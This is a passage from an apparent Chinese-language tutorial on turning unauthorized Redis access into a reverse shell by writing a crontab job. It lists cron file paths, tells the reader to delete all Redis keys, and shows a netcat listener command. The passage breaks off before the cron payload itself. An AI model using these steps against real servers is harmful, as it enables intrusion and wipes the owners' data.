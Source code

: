 ### 反弹shell

定时任务路径

- linux通用：/etc/crontab
- ubuntu：/var/spool/cron/crontabs/当前用户
- centos：/var/spool/cron/当前用户


通过定时任务crontab里写入新任务，反弹shell
原理是和写webshell、公钥一样的，只是变换一下写入的内容和路径，数据库名

::: danger
写入定时任务注意查看当前redis有哪些键值对，避免把其他无关键值对写进去影响定时任务格式导致无法执行
:::


避免影响，都删了

```bash
keys *
del 键名
```

![11](/medias/redis未授权访问控制漏洞/11.png)

现在可以写定时任务反弹shell了

开个终端监听反弹的shell
```bash
nc -lvnp 4444
```
